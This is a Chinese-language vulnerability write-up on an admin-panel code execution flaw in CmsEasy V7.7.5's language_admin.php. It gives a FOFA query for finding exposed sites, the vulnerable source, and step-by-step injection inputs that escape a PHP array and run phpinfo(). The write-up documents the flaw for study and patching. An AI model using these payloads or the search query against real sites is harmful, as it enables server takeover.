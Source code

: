 # CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## FOFA

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313235033013.png)

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313235034285.png)

存在漏洞的文件为 **lib/admin/language_admin.php**

![img](../../../.vuepress/public/img/1632731716459-d529c18d-4ef7-439d-8f89-67046487db78.png)

```php
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![img](../../../.vuepress/public/img/1632731775416-f1f75d5f-ced3-4d63-8ecd-f9728e3e785c.png)

其中参数有三个，分别为 **key , cnnote, val**

![img](../../../.vuepress/public/img/1632731945111-a0cb2f4a-4ab8-4f77-a026-368341754607.png)

传入参数后,查看 **lang/cn/system_custom.php** 文件中

```php
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```php
test1  test2  test3);
```

写入后文件内容

```php
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```php
test4  ,test5, 	,phpinfo());/*
```

![img](../../../.vuepress/public/img/1632732559691-eed0b63a-9beb-44fc-ac7c-8bb456eaea14.png)

写入后文件内容

![img](../../../.vuepress/public/img/1632732579899-4659ac1d-b516-4960-93ad-c4fdf4800db5.png)

访问文件 **/lang/cn/system_custom.php**

![img](../../../.vuepress/public/img/1632732628987-af135049-37e0-4dcd-bad7-04d53985c677.png)



若有收获，就点个赞吧